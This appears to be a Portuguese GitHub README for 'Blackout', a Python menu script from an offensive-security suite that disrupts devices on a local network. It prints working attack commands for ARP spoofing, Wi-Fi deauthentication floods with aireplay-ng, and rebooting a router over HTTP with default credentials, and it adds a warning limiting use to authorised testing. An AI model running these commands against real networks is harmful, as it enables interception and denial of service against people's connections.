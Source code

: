 


🛑 BLACKOUT

Um script Python para travar ou isolar dispositivos conectados à rede local.
Parte do projeto ZeroKey - uso restrito a ambientes controlados e autorizados.

⚙️ Sobre

Blackout é um script que executa comandos de bloqueio contra dispositivos conectados à mesma rede. É voltado para profissionais de segurança cibernética, testes de intrusão em ambientes autorizados e automação de controle de rede.

🚨 Aviso de Uso Ético

⚠️ Atenção: Este script é uma ferramenta poderosa e não deve ser utilizada em redes que você não tem permissão para monitorar ou controlar.

O uso indevido pode ser considerado crime cibernético (Lei nº 12.737/2012 - Brasil).

Utilize apenas para fins educacionais, profissionais ou testes com autorização.

📦 Requisitos

Python 3.x

Biblioteca colorama

pip install colorama

Ferramentas externas:

arpspoof (pacote dsniff)

iptables

aireplay-ng (pacote aircrack-ng)

curl

🎛️ Modo Interativo com Menu

O script agora possui um menu com as seguintes opções:

ARP Spoof – interceptação ou envenenamento ARP

Bloqueio por IP – usando iptables

Bloqueio por MAC – usando iptables

Deauth Wi-Fi – ataque de desconexão com aireplay-ng

Reiniciar Roteador – via curl (HTTP básico)

Sair

🧪 Execução

python Blackout.py

Você será guiado por um menu com perguntas e comandos automáticos.

🧠 Exemplos Reais de Comandos

ARP Spoof (envenenamento):

arpspoof -i wlan0 -t 192.168.0.105 192.168.0.1

Bloquear por IP:

iptables -A INPUT -s 192.168.0.105 -j DROP
iptables -A FORWARD -s 192.168.0.105 -j DROP

Bloquear por MAC:

iptables -A INPUT -m mac --mac-source AA:BB:CC:DD:EE:FF -j DROP

Deauth Wi-Fi:

aireplay-ng --deauth 1000 -a [BSSID] wlan0mon
# ou para um alvo específico:
aireplay-ng --deauth 1000 -a [BSSID] -c [MAC_CLIENTE] wlan0mon

Reiniciar roteador:

curl -u admin:senha http://192.168.0.1/reboot.cgi

🖼️ Capa Visual

O projeto acompanha um logotipo com estética cyberpunk/hacker:

Arquivo: BLACKOUT_LOGO.pngUso: Pode ser exibido em painéis, GUIs ou como splash de apresentação.

🔐 Projeto ZeroKey

Este script é um módulo interno do projeto ZeroKey, uma suíte de ferramentas para cibersegurança, automação de recon e operações ofensivas.

📄 Licença

Uso restrito. Distribuição permitida apenas com autorização do autor.

✉️ Contato

Autor: LUAN CARLOS Email: limacharlly@gmail.com Projeto: ZeroKey

